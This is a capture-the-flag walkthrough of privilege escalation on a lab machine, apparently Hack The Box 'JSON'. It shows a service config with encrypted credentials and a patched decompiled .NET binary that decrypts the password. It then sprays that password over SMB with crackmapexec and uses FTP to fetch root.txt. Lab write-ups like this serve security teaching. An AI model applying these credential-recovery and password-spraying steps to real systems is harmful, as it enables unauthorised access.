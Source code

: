 # 15 - PrivEsc

There are two ways to get root on this box. The unintended way is SeImpersonatePrivilege. I am going to ignore it for now.

# Sync2Ftp

```powershell
c:\Program Files\Sync2Ftp>dir
 Volume in drive C has no label.
 Volume Serial Number is B219-32A3

 Directory of c:\Program Files\Sync2Ftp

05/23/2019  03:06 PM    <DIR>          .
05/23/2019  03:06 PM    <DIR>          ..
05/23/2019  02:48 PM             9,728 SyncLocation.exe
05/23/2019  03:08 PM               591 SyncLocation.exe.config
               2 File(s)         10,319 bytes
               2 Dir(s)  20,091,797,504 bytes free
```
Sync2Ftp is a unique program installed on the victim's box. There are 2  files in  the source directory of the program; a configuration file and a .NET executable.

# Configuration file 
```xml
c:\Program Files\Sync2Ftp>type SyncLocation.exe.config
<?xml version="1.0" encoding="utf-8" ?>
<configuration>
  <appSettings>
    <add key="destinationFolder" value="ftp://localhost/"/>
    <add key="sourcefolder" value="C:\inetpub\wwwroot\jsonapp\Files"/>
    <add key="user" value="4as8gqENn26uTs9srvQLyg=="/>
    <add key="minute" value="30"/>
    <add key="password" value="oQ5iORgUrswNRsJKH9VaCw=="></add>
    <add key="SecurityKey" value="_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%"/>
  </appSettings>
  <startup>
    <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.7.2" />
  </startup>


</configuration>
```

It contains an encrypted password. Although we don't know how it is encrypted, we can decompile the .NET binary to find the encryption method.


# .NET binary
```
┌─[user@parrot]─[10.10.14.6]─[~/htb/json/www]
└──╼ $ file location.exe
location.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows

```


# Edit and compile to decrypt the password
![2021-08-16_09-14](vx_images/3591281777507.png)

```c#
using System;
using System.ServiceProcess;
using System.Windows.Forms;

namespace SyncLocation
{
	// Token: 0x02000005 RID: 5
	internal static class Program
	{
		// Token: 0x0600000F RID: 15
		private static void Main()
		{
			MessageBox.Show(Crypto.Decrypt("oQ5iORgUrswNRsJKH9VaCw==", true));
			ServiceBase.Run(new ServiceBase[]
			{
				new Service1()
			});
		}
	}
}
```

This program won't run until certain conditions are met. We can get around the error by decrypting the password before the condition check. Once you are done with editing and all that, go ahead and save it.

`File -> Save All...` and execute the saved executable.


# Pass
![2021-08-16_09-18](vx_images/3943614871647.png)



The name of the program is Sync2Ftp so it is very likely that this is an ftp password.

# superadmin
```bash
┌─[user@parrot]─[10.10.14.6]─[~/htb/json]
└──╼ $ cme smb 10.10.10.158 -u user.lst -p 'funnyhtb'
SMB         10.10.10.158    445    JSON             [*] Windows Server 2012 R2 Datacenter 9600 x64 (name:JSON) (domain:json) (signing:False) (SMBv1:True)
SMB         10.10.10.158    445    JSON             [-] json\administrator:funnyhtb STATUS_LOGON_FAILURE 
SMB         10.10.10.158    445    JSON             [+] json\superadmin:funnyhtb 
```
We found the username.

* superadmin:funnyhtb

# root.txt
```bash
┌─[user@parrot]─[10.10.14.6]─[~/htb/json]
└──╼ $ ftp 10.10.10.158
Connected to 10.10.10.158.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (10.10.10.158:user): superadmin
331 Password required for superadmin
Password:
230 Logged on
Remote system type is UNIX.
ftp> cd Desktop
250 CWD successful. "/Desktop" is current directory.
ftp> get root.txt
local: root.txt remote: root.txt
200 Port command successful
150 Opening data channel for file download from server of "/Desktop/root.txt"
226 Successfully transferred "/Desktop/root.txt"
32 bytes received in 0.00 secs (11.3102 kB/s)
```